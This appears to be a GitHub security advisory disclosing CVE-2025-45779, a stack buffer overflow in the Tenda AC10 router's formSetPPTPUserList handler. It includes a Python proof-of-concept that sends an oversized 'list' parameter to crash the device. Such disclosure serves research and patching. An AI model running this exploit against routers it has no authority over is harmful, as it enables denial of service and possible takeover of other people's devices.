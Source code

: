 # CVE-2025-45779 - Tenda AC10 V1.0 Stack Buffer Overflow in `formSetPPTPUserList`

## Summary

A stack-based buffer overflow vulnerability exists in the `formSetPPTPUserList` handler of the Tenda AC10 router (firmware V1.0re_V15.03.06.47). This vulnerability allows remote unauthenticated attackers to execute arbitrary code or cause a denial-of-service (DoS) condition via a specially crafted `list` parameter in an HTTP POST request.

- **CVE ID**: CVE-2025-45779

- **Vendor**: Shenzhen Tenda Technology Co., Ltd.  https://www.tenda.com.cn/

- **Product**: Tenda AC10 V1.0

- **Firmware Version**: V15.03.06.47 

- **Vulnerability Type**: Stack Buffer Overflow

- **Attack Vector**: Remote

- **Impact**: Remote Code Execution, Denial of Service

- **Discoverer**: You Sun (independent security researcher)

  

---

## Affected Firmware

- Firmware version: `V15.03.06.467

- Official firmware download page: https://www.tendacn.com/download/detail-3796.html

<div align="center">
  <img src="./0.png" alt="demo" style="border: 2px solid black;" />
</div>


---

## Vulnerability Details

The vulnerability is located in the `formSetPPTPUserList` handler inside the `httpd` binary. When handling a POST request to `/goform/setPptpUserList`, the firmware copies the contents of the `list` parameter into a fixed-size stack buffer using unsafe string manipulation functions (e.g., `strcpy`, `sprintf`, etc.) without proper bounds checking.

By submitting a specially crafted payload that contains a large number of user entries, an attacker can overflow the buffer, leading to memory corruption, device crash, or potential arbitrary code execution with root privileges.
<div align="center">
<img src="./1.PNG" alt="demo" style="border: 2px solid black;" />
<img src="./2.PNG" alt="demo" style="border: 2px solid black;" />
<img src="./3.PNG" alt="demo" style="border: 2px solid black;" />
</div>

---
## Demo

<img src="./poc.gif" alt="demo" style="border: 2px solid black;" />


*The above GIF demonstrates the crash behavior when the vulnerability is triggered with the PoC.*

---

## Proof of Concept (PoC)：CVE-2025-45779-poc-TendaAC10.py

```python
import requests
cookie = {'Cookie':'SESSION_ID=2:1668665284:2','password': 'caw5gk'}
def gen_user(index):
    username = f"user{index:02d}".ljust(64, 'A')  # Each username is filled with 64 bytes
    password = f"pass{index}"
    uid = str(index)
    admin = "1"  # bypass admin check
    return f"{username};{password};{uid};{admin};x;x;x"

def build_payload(user_count=100):
    return "~" + "~".join([gen_user(i) for i in range(user_count)]) + "~"

def send_exploit(target_url):
    payload = build_payload()
    data = {
        "list": payload
    }

    print(f"[+] Sending payload to {target_url} ...")
    r = requests.post(target_url, data=data,cookies=cookie)
    print(f"[+] Response Status: {r.status_code}")
    print(f"[+] Response Body:\n{r.text}")
# router ip
base_url = "http://192.168.5.12"
set_url = f"{base_url}/goform/setPptpUserList"
try:
    send_exploit(set_url)
except Exception as e:
    print(f'An error  occurred: {e}')
```
